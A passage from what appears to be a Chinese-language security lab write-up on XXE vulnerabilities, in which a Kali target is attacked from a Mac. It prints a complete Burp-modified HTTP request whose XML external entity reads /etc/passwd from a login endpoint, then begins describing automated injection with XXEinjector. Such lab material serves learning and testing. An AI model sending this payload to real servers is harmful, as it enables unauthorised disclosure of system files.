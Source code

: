 可以看到，在目标服务器中，已经存在我们所上传的tmp文件<br />![截屏2021-06-22 上午1.22.42.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624296212889-d37f76fe-a344-4298-af52-ad211176b059.png#align=left&display=inline&height=1184&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-22%20%E4%B8%8A%E5%8D%881.22.42.png&originHeight=1184&originWidth=1574&size=203616&status=done&style=none&width=1574)
## python下的XXE漏洞
本实验使用kali linux作为目标服务器，mac作为攻击机<br />kali开启服务<br />![截屏2021-06-22 上午1.48.06.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624297815175-dc4403cd-9a17-4c51-a650-9a0d6b3f51ff.png#align=left&display=inline&height=139&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-22%20%E4%B8%8A%E5%8D%881.48.06.png&originHeight=430&originWidth=1282&size=205493&status=done&style=none&width=414)<br />访问服务器<br />![截屏2021-06-22 上午1.47.18.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624297885799-1b4e3a18-7bec-4488-8a5d-de45ec68f120.png#align=left&display=inline&height=1662&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-22%20%E4%B8%8A%E5%8D%881.47.18.png&originHeight=1662&originWidth=2604&size=412582&status=done&style=none&width=2604)<br />burp抓包改包发包，改包为如下
```xml
POST /doLogin HTTP/1.1
Host: 192.168.43.147:8008
Content-Length: 169
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://192.168.43.147:8008
Referer: http://192.168.43.147:8008/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE user[
<!ENTITY baz SYSTEM "file:///etc/passwd">
]>
<user><username>&baz;</username><password>admin</password></user>
```
发包后，可在返回包中看到passwd文件的内容<br />![截屏2021-06-22 上午2.05.24.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624298739780-f2ad89fb-e5b8-40d2-a785-3a27ffc430bd.png#align=left&display=inline&height=1762&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-22%20%E4%B8%8A%E5%8D%882.05.24.png&originHeight=1762&originWidth=2696&size=876145&status=done&style=none&width=2696)
## XXE自动化注入
这里利用XXEinjector进行自动化注入<br />首先抓包，将发送包保存为txt文件<br />如下抓了xxe_php的包和xxe_java的包<br />![截屏2021-06-22 下午8.12.27.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624363957889-6188a716-184b-4ddd-97fc-2d85e0f1067e.png#align=left&display=inline&height=239&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-22%20%E4%B8%8B%E5%8D%888.12.27.png&originHeight=478&originWidth=242&size=27999&status=done&style=none&width=121)<br />![截屏2021-06-22 下午8.13.03.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624364004122-41bfd2a8-f3a8-4c68-9a20-b5dfb1162aed.png#align=left&display=inline&height=972&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-22%20%E4%B8%8B%E5%8D%888.13.03.png&originHeight=972&originWidth=1500&size=255072&status=done&style=none&width=1500)<br />![截屏2021-06-22 下午8.13.10.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624364014050-ac9cf45a-5547-4461-bbf5-18bd28bd6938.png#align=left&display=inline&height=972&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-22%20%E4%B8%8B%E5%8D%888.13.10.png&originHeight=972&originWidth=1500&size=257199&status=done&style=none&width=1500)<br />之后就可以打开终端进行注入
